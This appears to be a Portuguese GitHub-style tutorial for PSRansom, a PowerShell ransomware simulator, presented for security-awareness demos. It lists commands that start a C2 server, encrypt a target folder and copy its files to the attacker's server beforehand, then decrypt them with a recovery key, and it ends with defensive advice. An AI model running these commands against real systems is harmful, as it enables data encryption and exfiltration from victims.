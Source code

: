 ## PSRansom - Simulação de Ransomware com C2

PSRansom ​​é um script escrito em PowerShell que permite simular o funcionamento de um Ransomware. É um script que você pode utilizar por exemplo em uma apresentação de conscientização sobre os riscos e o impacto que um ransomware pode causar.

🔴 O uso indevido desta técnica é de sua total responsabilidade e está sujeito as penalizações prevista na Lei 12.737.

## Como Usar

01 - Realize o clone do projeto PSRansom

```bash
git clone https://github.com/JoelGMSec/PSRansom
```

02 - Entre no diretorio dos arquivos

```bash
cd PSRansom
```

03 - Use o comando para vizualizar todos arquivos contido no diretorio

```bash
ls -l
```

04 - Inicie o C2 Server através do comando a seguir:

```bash
pwsh C2Server.ps1 + 80
```

05 - No host Windows criei a pasta 100SECURITY com alguns arquivos como exemplo.

06 - Realize o download do PSRansom no Windows e execute o comando a seguir:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x
```

- C:\100SECURITY : Pasta Alvo
- 192.168.0.76 : Servidor C2
- 80 : Porta de conexão com o servidor C2
- -x : Realiza a cópia dos arquivos para o servidor C2

07 - No servidor C2 o atacante recebe a lista de arquivos que foram criptografados e a Chave de Recuperação.

```bash
Chave de Recuperação : WNLmTxjnDpzZGaEF4AsUYgi5
```

Arquivos `criptografados` com a extensão `.psr`

08 - Dentro da pasta C2Files o atacante recebe uma cópia de todos os arquivos antes da criptografia.

```bash
cd CS2Files
```

```bash
ls -l
```

07 - Observe que foi criado o arquivo readme.txt contendo a Chave de Recuperação dos arquivos.

```bash
Recovery Key : WNLmTxjnDpzZGaEF4AsUYgi5
```

08 - Para recuperar os arquivos basta digitar o comando a seguir :

```bash
.\PSRansom.ps1 -d C:\100SECURITY -K WNLmTxjnDpzZGaEF4AsUYgi5
```

Arquivos recuperados com sucesso!

🔴   Exibindo uma mensagem da Tela do Usuário
Para exibir a mensagem basta utilizar o parâmetro -demo :

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x -demo
```

💀 Mensagem!

Se o usuário clicar em Pay Now! é exibido um pop-up na tela.

## 🔓 Observações
O impacto e o prejuízo financeiro que este tipo de ataque por causar nas empresa é muito grande, segue algumas recomendações :

Conscientize de forma constante os colaboradores da sua empresa, sobre os riscos de segurança
Realize exercícios e simulações de Phishing, Ransomware, Engenharia Social, etc.
Invista em soluções de segurança como EDRs, AVs, Firewall, WAF, etc.
Se possível monte um time interno de segurança em sua empresa para realizar simulações de ataques reais.
Contrate uma consultoria especializada para avaliar seu ambiente de forma independente e periódica.
Leve a segurança dos dados da sua empresa e de seus clientes a sério!






